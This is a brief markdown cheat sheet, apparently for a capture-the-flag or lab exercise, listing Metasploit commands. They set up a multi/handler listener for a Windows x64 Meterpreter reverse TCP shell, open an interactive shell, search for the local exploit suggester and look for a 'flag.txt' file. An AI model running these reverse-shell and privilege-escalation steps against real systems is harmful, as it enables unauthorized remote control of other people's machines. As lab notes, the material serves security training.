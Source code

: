 ### Setting Up Multi/Handler
```bash
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

#### Interactive Shells
```bash
shell
```

#### Commands
```bash
meterpreter > help

msf6 > search local_exploit_suggester
meterpreter > search -f "flag.txt"
```
